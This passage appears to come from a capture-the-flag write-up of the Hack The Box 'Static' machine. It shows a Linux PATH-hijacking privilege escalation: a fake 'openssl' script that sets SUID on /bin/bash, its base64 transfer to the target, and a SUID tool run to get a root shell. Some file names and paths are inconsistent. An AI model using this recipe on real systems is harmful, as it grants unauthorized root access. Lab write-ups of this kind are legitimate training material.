 [https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

First we create a file named openssh 

```bash
#!/bin/bash
chmod u+s /bin/bash
```

After we copy this file to the pki host

```bash
─[us-dedivip-1]─[10.10.16.200]─[jpfguedes@htb]─[~/htb/Static/exploitation/user]
└──╼ [★]$ cat openssl | base64
IyEvYmluL2Jhc2gKY2htb2QgdStzIC9iaW4vYmFzaAo=
```

And on the pki box

```bash
www-data@pki:/tmp/jpfdevs$ echo 'IyEvYmluL2Jhc2gKY2htb2QgdStzIC9iaW4vYmFzaAo=' | base64 -d > openssl
```

Now we has to execute the ersatool

```bash
www-data@pki:/tmp/jpfdevs$ chmod +x openssl
www-data@pki:/tmp/jpfdevs$ export PATH=/tmp:$PATH
www-data@pki:/tmp/jpfdevs$ echo $PATH
www-data@pki:/tmp/jpfdevs$ /usr/bin/ersatool
# create
create->CN=test
# exit
bash-4.4# 
```